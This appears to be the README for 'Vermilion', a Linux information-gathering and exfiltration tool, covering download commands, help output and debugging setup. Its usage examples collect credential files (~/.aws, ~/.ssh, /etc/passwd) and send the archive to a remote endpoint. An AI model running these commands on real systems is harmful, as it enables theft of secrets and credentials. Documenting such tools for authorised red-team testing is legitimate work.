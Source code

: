 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.6.0/vermilion_0.6.0_linux_amd64.tar.gz
tar -xzf vermilion_0.6.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

example output:  
```console
Vermilion - Linux info gathering and exfiltration tool

Usage:
  vermilion [flags]

Flags:
  -e, --endpoint string   Exfiltration endpoint URL
  -h, --help              help for vermilion
  -n, --noexf             Skip exfiltration and save locally
  -p, --paths string      Comma-separated list of paths to gather sensitive data from
```  

To run the tool with no exfiltration run:  

```console
vermilion --noexf
```  

The previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  

If you want to only gather files from specific paths, specify the `-p` argument, for example:  
```console
vermilion -p ~/.aws,/etc/passwd,~/.ssh
```  



If you want to specify an endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  



